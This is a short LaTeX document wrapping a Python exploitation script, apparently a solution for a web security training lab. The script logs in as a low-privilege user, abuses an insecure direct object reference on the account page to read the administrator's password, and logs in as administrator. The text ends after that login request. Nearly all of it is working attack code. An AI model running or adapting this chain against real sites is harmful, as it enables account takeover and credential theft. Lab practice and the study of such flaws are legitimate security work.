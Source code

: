 \documentclass[11pt,letterpaper]{article}
\begin{document}
\begin{verbatim}[language=python,caption={Simplified single-purpose script}]
#!/usr/bin/env python3
"""Minimal IDOR + Password Disclosure exploitation script."""

import sys
import requests
import urllib3
from bs4 import BeautifulSoup

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

PROXIES = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}

def exploit(base_url: str) -> bool:
    """Complete attack chain execution."""

    # Phase 1: Login as wiener
    print("[*] Phase 1: Logging in as wiener...")
    s1 = requests.Session()

    r = s1.get(f"{base_url}/login", verify=False, proxies=PROXIES, timeout=15)
    soup = BeautifulSoup(r.text, 'html.parser')
    csrf = soup.find('input', {'name': 'csrf'})['value']

    s1.post(f"{base_url}/login", data={
        'csrf': csrf,
        'username': 'wiener',
        'password': 'peter'
    }, verify=False, proxies=PROXIES, timeout=15)

    print("[+] Logged in as wiener")

    # Phase 2: IDOR to get admin password
    print("[*] Phase 2: Exploiting IDOR...")
    r = s1.get(f"{base_url}/my-account?id=administrator",
               verify=False, proxies=PROXIES, timeout=15)

    if 'administrator' not in r.text.lower():
        print("[-] IDOR failed")
        return False

    print("[+] Accessed administrator account page")

    # Extract password
    soup = BeautifulSoup(r.text, 'html.parser')
    pwd_input = soup.find('input', {'name': 'password'})
    admin_password = pwd_input['value']
    print(f"[+] Administrator password: {admin_password}")

    # Phase 3: Login as admin
    print("[*] Phase 3: Logging in as administrator...")
    s2 = requests.Session()

    r = s2.get(f"{base_url}/login", verify=False, proxies=PROXIES, timeout=15)
    soup = BeautifulSoup(r.text, 'html.parser')
    csrf = soup.find('input', {'name': 'csrf'})['value']

    s2.post(f"{base_url}/login", data={
        'csrf': csrf,
        'username': 'administrator',
        'password': admin_password
    }, verify=False, proxies=PROXIES, timeout=15)


\end{verbatim}
\end{document}
